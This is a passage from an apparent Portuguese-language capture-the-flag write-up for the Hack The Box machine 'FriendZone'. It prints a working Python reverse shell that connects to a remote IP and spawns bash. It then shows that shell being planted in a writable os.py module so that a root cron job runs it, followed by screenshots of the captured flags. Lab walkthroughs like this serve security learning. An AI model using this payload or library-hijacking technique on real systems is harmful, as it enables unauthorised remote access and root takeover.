 Arrumamos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_py.png)

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.119",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
Colocamos dentro do *os.py*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_py1.png)

Esperamos o cronjob rodar e teremos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_py2.png)

## Pegamos as flags de root e user

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_user.png)